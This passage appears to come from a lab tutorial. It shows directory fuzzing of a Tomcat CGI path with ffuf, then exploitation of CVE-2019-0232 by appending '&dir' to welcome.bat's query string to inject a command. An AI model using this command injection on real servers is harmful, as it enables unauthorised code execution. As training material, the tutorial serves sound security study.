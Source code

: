 ```shell-session
swmpdnky@htb[/htb]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.204.227:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 234ms]
    * FUZZ: welcome

:: Progress: [4614/4614] :: Job [1/1] :: 226 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```

Navigating to the discovered URL at `http://10.129.204.227:8080/cgi/welcome.bat` returns a message:

Code: txt

```txt
Welcome to CGI, this section is not functional yet. Please return to home page.
```

---

## Exploitation

As discussed above, we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`. We now have a valid CGI script path discovered during the enumeration at `http://10.129.204.227:8080/cgi/welcome.bat`

Code: http

```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

Navigating to the above URL returns the output for the `dir` batch command, however trying to run other common windows command line apps, such as `whoami` doesn't return an output.
